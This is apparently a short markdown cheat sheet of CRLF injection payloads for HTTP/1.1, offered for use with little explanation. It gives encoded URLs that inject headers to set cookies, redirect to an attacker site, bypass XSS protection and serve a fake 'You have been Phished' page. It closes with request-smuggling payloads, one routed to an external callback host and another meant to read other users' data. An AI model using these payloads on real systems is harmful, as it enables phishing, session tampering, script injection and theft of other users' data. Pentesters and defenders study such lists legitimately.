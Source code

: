 # Content 
- [HTTP/1.1 CRLF injeciton](#http11-crlf-injeciton)
  - [CRLF injeciton can lead to](#crlf-injeciton-can-lead-to)


## HTTP/1.1 CRLF injeciton
**where to inject** 
- url path
```
http://www.example.net/%0D%0A
```
- parameter
```
http://www.example.net/?param=value%0D%0A
```

### **CRLF injeciton can lead to**
#### XSS
```
http://www.example.net/?name=Bob%0D%0A<script>alert(document.domain)</script>
```
#### add a header

- add cookie

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue   
```


- open redirect
```
http://www.example.net/%0D%0ALocation:http://evil.site    
```
- XSS Bypass
```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e     

```
- Write HTML
```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E 
```

#### Request Smuggling

if u can add headers 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1

HTTP/1.1 200 OK
Connection: keep-alive
```

try to make smuggle request 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1
```

or try to read other user's data
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1
```

